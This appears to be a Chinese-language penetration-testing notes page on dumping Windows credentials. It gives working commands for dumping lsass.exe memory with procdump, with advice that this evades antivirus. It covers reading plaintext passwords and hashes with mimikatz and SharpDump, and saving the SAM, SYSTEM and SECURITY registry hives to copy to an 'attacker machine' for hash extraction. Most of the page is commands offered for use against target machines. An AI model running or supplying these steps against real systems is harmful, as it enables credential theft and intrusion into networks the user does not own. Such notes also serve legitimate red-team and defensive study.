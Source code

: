 **文章**
- [Win10及2012系统以后的明文抓取方式](https://www.anquanke.com/post/id/175364)
- [Mimikatz明文密码抓取](https://uknowsec.cn/posts/notes/Mimikatz%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96.html)
- [mimikatz-抓取windows明文密码](http://rtshield.top/2019/09/02/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7-mimikatz-%E6%8A%93%E5%8F%96windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81/)

在任务管理器找到 lsass.exe，右键创建转储文件

procdump 是微软的官方工具，不会被杀，所以如果你的 mimikatz 不免杀，可以用 procdump 导出 lsass.dmp 后拖回本地抓取密码来规避杀软。
```
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

然后用 mimikatz 加载导出来的内存再抓 hash
```
sekurlsa::minidump c:\users\test\appdata\local\temp\lsass.dmp
sekurlsa::logonpasswords full
```

**SharpDump** c# 免杀抓明文
- https://github.com/GhostPack/SharpDump

在管理员权限下运行生成 debug480.bin

特别注意,dump 的文件默认是 bin 后缀,拖到本地机器以后,需要自行把 bin 重命名为 zip 的后缀,然后正常解压处里面的文件,再丢给 mimikatz 去读取即可,如下

mimikatz加载dump文件
```
sekurlsa::minidump debug480
sekurlsa::logonPasswords full
```

**sam + mimikatz**

> 注意：本地复原机器必须与目标机器一致，且需要在系统权限下执行

从 sam 中提取目标系统用户 hash
```
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
```

将上述三个文件复制到攻击机本地，然后使用 mimikatz 获取用户 hash
```
lsadump::sam /system:system.hiv /sam:sam.hiv /security:security.hiv
```

---

# NTDS.DIT

使用 Mimikatz 提取 Active Directory hash
```
privilege::debug
mimikatz lsadump::lsa /inject exit
sekurlsa::minidump c:\temp\lsass.dmp      使用 Mimikatz 转储 LSASS 内存
sekurlsa::logonpasswords
```
